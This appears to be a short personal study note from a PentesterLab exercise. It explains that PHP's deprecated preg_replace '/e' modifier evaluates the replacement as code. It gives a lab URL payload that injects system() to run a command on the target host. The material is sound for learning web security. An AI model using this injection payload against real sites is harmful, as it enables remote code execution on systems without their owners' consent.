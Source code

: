 ```yaml
---
tags: php

---
```


```ad-attention
This PHP function is __DEPRECATED__, as of PHP version __5.5.0__
```

Let’s take a url like:
```error
http://ptl-d96bbc999bc3-26c9fb9fec52.libcurl.me/?new=hacker&pattern=/lamer/&base=Hello%20lamer
```

Here, by adding the modifier `/e` here: new=hacker&pattern=/lamer__/e__&base=Hello, you can invoke an error message: 
```error
# **Notice**: Use of undefined constant hacker - assumed 'hacker' in **/var/www/index.php(14) : regexp code** on line **1**
```
And now, by replacing `hacker` with any function we can run it.

This is because `preg_replace` tries to evaluate hacker as a constant.

Here is an example payload I had to use in pentesterlabs:
```link
http://ptl-d96bbc999bc3-26c9fb9fec52.libcurl.me/?new=system(%27/usr/local/bin/score%20e6206710-c2c4-4704-869e-888e9947486e%27)&pattern=/lamer/e&base=Hello%20lamer
```